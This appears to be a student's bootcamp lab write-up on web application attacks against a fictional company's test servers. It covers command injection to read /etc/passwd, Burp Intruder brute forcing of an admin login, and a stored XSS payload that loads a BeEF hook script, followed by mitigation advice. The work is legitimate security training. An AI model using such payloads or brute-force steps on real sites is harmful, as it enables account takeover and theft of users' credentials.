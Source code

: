 Unit 15: Web Vulnerabilities and Hardening

Web Application 1: Your Wish is My Command Injection

This page is a new web application built by Replicants in order to enable their customers to ping an IP address. The web page will return the results of the ping command back to the user.
This type of injection attack is called Command Injection, and it is dependent on the web application taking user input to run a command against an operating system.
Now that you have determined that Replicants new application is vulnerable to command injection, you are tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:

/etc/passwd

![](Images/Web_Vuln1.png)

/etc/hosts

![](Images/Web_Vuln2.png)

Mitigation Strategies:

    Limit input from user and input validation.  In this case the web application is calling for IP address/es, input should be limited to IP address/es strings and should return an error for anything that is otherwise specified.  Restrict web server accessibility following the principle of least privilege to prevent confidential information access.


Web Application 2: A Brute Force to Be Reckoned With
Complete the following steps to set up the activity.

Open a browser on Vagrant and navigate to the webpage http://192.168.13.35/install.php.
This page is an administrative web application that serves as a simple login page. An administrator enters their username and password and selects Login.

If the user/password combination is correct, it will return a successful message.

If the user/password combination is incorrect, it will return the message, "Invalid credentials."


Years ago, Replicants had a systems breach and several administrators passwords were stolen by a malicious hacker. The malicious hacker was only able to capture a list of passwords, not the associated accounts' usernames. Your manager is concerned that one of the administrators that accesses this new web application is using one of these compromised passwords. Therefore, there is a risk that the malicious hacker can use these passwords to access an administrator's account and view confidential data.
Use the web application tool Burp Suite, specifically the Burp Suite Intruder feature, to determine if any of the administrator accounts are vulnerable to a brute force attack on this web application.

You've been provided with a list of administrators and the breached passwords:

List of Administrators

Breached list of Passwords

Generate a login request and capture the traffic using Burp Suite.  Send the HTTP request to Burp Intruder.

![](Images/Web_Vuln3.png)

Identify the payload positions which is the username and password 

![](Images/Web_Vuln4.png)

Update the Burp Intruder username payload for payload set 1

![](Images/Web_Vuln5.png)

Updated the Burp Intruder password payload for payload set 2

![](Images/Web_Vuln6.png)

Successful brute force attack. Image showing the successful payload combination.

![](Images/Web_Vuln7.png)

Mitigation Strategies:
        
        Complex username and password,  Multi-Factor authentication, CAPTCHA to slow down credential stuffing, prevent automated login and lock accounts after several failed attempts.

Web Application 3: Where's the BeEF?

Task details:

The page you will test is the Replicants Stored XSS application which was used the first day of this unit: http://192.168.13.25/vulnerabilities/xss_s/
The BeEF hook, which was returned after running the sudo beef command was: http://127.0.0.1:3000/hook.js
The payload to inject with this BeEF hook is: <script src="http://127.0.0.1:3000/hook.js"></script>
When you attempt to inject this payload, you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.

Max Character set limit is 50.

![](Images/Web_Vuln8.png)

Increase max character limit to 75 to successfully inject script.

![](Images/Web_Vuln9.png)

Verify that the script is successfully embedded.

![](Images/Web_Vuln10.png)

Social Engineering >> Pretty Theft

![](Images/Web_Vuln11.png)

Social Engineering >> Fake Notification Bar

![](Images/Web_Vuln12.png)

Host >> Get Geolocation (Third Party)

![](Images/Web_Vuln13.png)

Mitigation Strategy:

    Service-side input validation to prevent scripts from being stored on web applications.
